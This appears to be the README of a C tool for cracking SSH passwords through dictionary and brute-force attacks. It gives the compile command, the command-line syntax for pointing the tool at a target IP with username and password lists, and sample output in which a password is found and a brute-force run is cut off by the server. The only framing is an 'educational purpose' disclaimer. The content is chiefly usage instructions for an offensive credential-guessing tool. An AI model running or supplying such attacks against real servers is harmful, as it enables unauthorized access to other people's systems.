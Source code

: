 # SSH Password Cracker (C - Implementation)
  **[ For Educational Purpose ONLY ]**

Crack SSH Password using Dictionary and Brute Force Method

## Introduction
Secure Shell (SSH) is a cryptographic network protocol for operating network services securely over an unsecured network. The best known example application is for remote login to computer systems by users.

## Usage
```c
$ gcc -o sshbrute_b sshbrute_b.c -lssh
$
$ ./sshbrute_b 
Usage: ./sshbrute -t target -uf ufile [-pf pfile] [-po 22 (default)] [-b]

$
$ ./sshbrute_b -t <ip_address> -uf username.txt -pf password.txt

[*] User: username
[+] Password: toor -> Incorrect Password
[+] Password: root -> Incorrect Password
[+] Password: password -> Incorrect Password
[+] Password: correctpwd -> Connected


[*] Username: username
[*] Password: correctpwd

$
$ ./sshbrute_b -t <ip_address> -uf username.txt -b

[*] User: username
Enter the lenght of password: 8
[+] Password: aaaaaaaa -> Incorrect Password
[+] Password: aaaaaaab -> Incorrect Password
[+] Password: aaaaaaac -> Incorrect Password
[+] Password: aaaaaaad -> Incorrect Password
[+] Password: aaaaaaae -> Incorrect Password
[+] Password: aaaaaaaf -> 
Error authenticating with password: Received SSH_MSG_DISCONNECT: 33554432:Too many authentication failures

$
```
